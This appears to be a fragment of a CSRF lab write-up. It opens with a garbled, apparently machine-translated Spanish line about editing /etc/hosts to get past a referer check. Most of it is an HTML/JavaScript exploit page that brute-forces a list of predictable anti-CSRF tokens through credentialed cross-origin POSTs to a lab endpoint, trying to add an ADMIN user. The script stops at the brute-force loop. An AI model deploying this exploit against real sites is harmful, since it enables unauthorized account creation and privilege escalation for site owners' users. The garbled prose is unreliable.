 > Tuvisí que cambiar el alma local en valor /etc/hosts a un subdominio del objetivo como: hacker.site.4.csrf.labs Así que el árbitro no fue bloqueado

```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         1679091c5a880faf6fb5e6087eb1b2dc
         45c48cce2e2d7fbdea1afc51c7c6ad26
         8f14e45fceea167a5a36dedd4bea2543
         a87ff679a2f3e71d9181a67b7542122c
         c4ca4238a0b923820dcc509a6f75849b
         c81e728d9d4c2f636f067f89cc14862c
         c9f0f895fb98ab9159f51fd0297e236d
         cfcd208495d565ef66e7dff9f98764da
         d3d9446802a44259755d38e6d163e820
         e4da3b7fbbce2345d7772b0674a318d5
         eccbc87e4b5ce2fe28308fd9f2a7baf3
      </textarea>
      <script>
         function bruteLoop(TList) {
            for (var i = 0; i < TList.length; i++) {
               console.info("Testing: " + TList[i]);
               XHRPost(TList[i]);
            }
         }

         function XHRPost(tVal) {
            var http = new XMLHttpRequest();
            var url = "http://4.csrf.labs/add_user.php";
            var token = tVal;
            params = {
               "name": "Johnny",
               "surname": "praq",
               "email": "john@hacker.site",
               "role": "ADMIN",
               "submit": "",
               "CSRFToken": token,
            };
            http.open("POST", url, true);
            http.withCredentials = 'true';

            // Send the proper header information along with the request
            http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
            http.onreadystatechange = function () {
               if (http.readyState > 1) {// We don't care about responses
                  // console.warn("Aborted " + token + " with status " + http.readyState);
                  http.abort();
               }
            };

            // Serialize the data without using JQuery
            queryParams = Object.keys(params).reduce(function (a, k) {
               a.push(k + '=' + encodeURIComponent(params[k]));
               return a
            }, []).join('&');
            http.send(queryParams);
         }

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
         tokens = tokens.filter(Boolean); // Remove empty lines

         // Brute Loop
```
